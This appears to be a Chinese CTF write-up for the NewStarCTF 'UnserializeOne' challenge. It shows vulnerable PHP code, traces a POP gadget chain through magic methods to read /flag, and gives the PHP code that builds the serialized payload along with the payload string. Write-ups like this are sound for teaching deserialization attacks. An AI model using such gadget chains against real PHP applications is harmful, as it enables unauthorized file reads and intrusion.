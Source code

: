 



![img](https://peekaboo.show/content/images/2022/11/69bce6f54be45fc4d219573e1e0a54d5.png)



# Week2 UnserializeOne 200

#### 0、知识点与工具

>   php 魔术方法‌
>   ‌     __destruct()、__isset()、__construct()、__toString、                ‌
>   ‌     __invoke()、__call()、__clone()

>   php 反序列化

>   工具：burpsuite、postman

#### 1、分析一下代码

‌

```
<?php
error_reporting(0);
highlight_file(__FILE__);
#Something useful for you : https://zhuanlan.zhihu.com/p/377676274


class Start{
    public $name;
    protected $func;
	
    // 函数销毁时执行
    // Start类对象销毁时执行
    public function __destruct()
    {
        echo "Welcome to NewStarCTF, ".$this->name;
    }

	// 当对不可访问属性调用isset()时调用
    // 访问Start类对象中不存在的属性时调用
    public function __isset($var)
    {
        ($this->func)();
    }
}

class Sec{
    private $obj;
    private $var;

	// 类被当成字符串时调用
    // Sec类被当成字符串ecco时调用
    public function __toString()
    {
        $this->obj->check($this->var);
        return "CTFers";
    }

	// 调用函数的方式调用一个对象时的回应方法
    // 调用Sec类对象中的一个方法时调用
    public function __invoke()
    {
        echo file_get_contents('/flag');
    }
}

class Easy{
    public $cla;

	// 在对象中调用一个不可访问方法时调用
    // 调用Easy类对象中的一个不存在的方法时调用
    public function __call($fun, $var)
    {
        $this->cla = clone $var[0];
    }
}

class eeee{
    public $obj;

	// 当对象复制完成时调用
    // 当eeee类对象被复制时调用
    public function __clone()
    {
        if(isset($this->obj->cmd)){
            echo "success";
        }
    }
}

if(isset($_POST['pop'])){
    unserialize($_POST['pop']);
}
```



‌

>   根据上面的分析，可以倒推，获取flag的invoke方法是在Sec类中，那么要触发invoke方法需要调用Sec类中的方法，

>   洞观全局只有Start类中有调用对象中的方法代码，

>   所以Start类中的属性func的值应该存储Sec类对象

>   然后想要执行Start类中isset方法，那么需要eeee类中的属性obj存储Start类对象

>   然后想要执行eeee类中clone方法，那么需要访问Easy类中一个不存在的方法

>   然后想要执行call方法，那么需要执行Sec类中的toString方法

>   然后想要执行toString方法，那么需要Start类对象被销毁

>   最终结果为：Start类对象中 $name= Sec类对象，$func = Sec类对象‌
>   ‌      Sec类对象中的 $obj = Easy类对象，$var = eeee类对象‌
>   ‌      eeee类对象中的$obj = Start类对象‌
>   ‌      Easy类对象中的$cla = null

>   把下面的代码加在题目中的最后一行，用自己的php环境跑一下就阔以得到下序列化的字符串，不过需要把最后那个if判断参数的代码干掉

‌

```php
$start = new Start();
$e = new eeee();
$easy = new Easy();

// 存储Start类对象就阔以触发其中的__isset魔术方法
$e ->obj = $start;

// 这里使用构成方法赋值，虽然原题没有但可以自己加
//$sec = new Sec($easy,$start);

// 没有构成方法方式赋值
$sec = new Sec();
// 存储Easy类对象就阔以触发其中的__call魔术方法
$sec ->obj = $easy;
// 存储eeee类对象就阔以触发其中的__clone魔术方法
$sec ->var = $e;

// 存储Sec类对象就阔以触发其中的__toString魔术方法
$start->name = $sec;
// 存储Sec类对象就阔以触发其中的____invoke魔术方法,获取flag
$start->func = $sec;

echo serialize($start);
```



‌

>   序列化后的字符串为

‌

```
O:5:"Start":2:{s:4:"name";O:3:"Sec":2:{s:3:"obj";O:4:"Easy":1:{s:3:"cla";N;}s:3:"var";O:4:"eeee":1:{s:3:"obj";r:1;}}s:4:"func";r:2;}
```



‌

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/288eb89fd17c95cb638cbdf7b5eb76c.jpg)



‌

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/f4c037fd9ef9d16049e29e28eb6340f.jpg)



‌

>   看了有些人的wp，发现序列化的字符串需要url编码，但使用burp倒是并不需要url编码，编不编码并不影响结果，在这一题中

>   使用postman进行测试，发现url编码后的字符串还不能获得flag，未编码的字符串倒是可以获得flag

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221117123944.png)



‌

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221117124029.png)



‌